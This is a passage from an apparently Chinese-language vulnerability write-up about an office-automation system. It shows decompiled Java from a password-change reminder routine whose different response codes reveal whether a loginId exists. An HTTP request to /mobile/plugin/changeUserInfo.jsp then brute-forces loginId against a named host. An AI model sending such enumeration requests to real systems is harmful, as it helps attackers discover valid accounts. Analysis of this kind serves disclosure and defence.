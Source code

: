 ```java
                            boolean var14 = false;
                            String var15 = "";
                            String var16 = "0";
                            String var17 = "0";
                            var5.executeQuery("select passwdchgdate from hrmresource where loginId = ? ", new Object[]{var1});
                            if (var5.next()) {
                                var12 = var5.getString(1);
                                int var21 = TimeUtil.dateInterval(var12, TimeUtil.getCurrentDateString());
                                if (var21 < Integer.parseInt(var10)) {
                                    var16 = "1";
                                }
                                var15 = TimeUtil.dateAdd(var12, Integer.parseInt(var10) - Integer.parseInt(var11));
                                int var22;
                                try {
                                    var22 = TimeUtil.dateInterval(var15, TimeUtil.getCurrentDateString());
                                } catch (Exception var19) {
                                    var22 = 0;
                                }
                                var7 = Integer.parseInt(var11) - var22;
                                if (var22 >= 0) {
                                    var17 = "1";
                                }
                            }
                            if (!"1".equals(var16)) {
                                var2 = "20";
                            } else if ("1".equals(var17)) {
                                var2 = "22";
                                var3.put("passwdelse", var7);
                            }
                        }
                    } else {
                        var2 = "21";
                    }
                }
            }
        }
        var3.put("resultMsg", var2);
    } catch (Exception var20) {
        this.writeLog("getPassChangedReminder,Exception." + var20.getMessage());
    }
    return var3;
}
```

那么根据这个差异便可以用来爆破`loginId`，如下图。

```text
GET /mobile/plugin/changeUserInfo.jsp?type=status&loginId=user HTTP/1.1
Host: weoa.sundan.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Connection: close


```
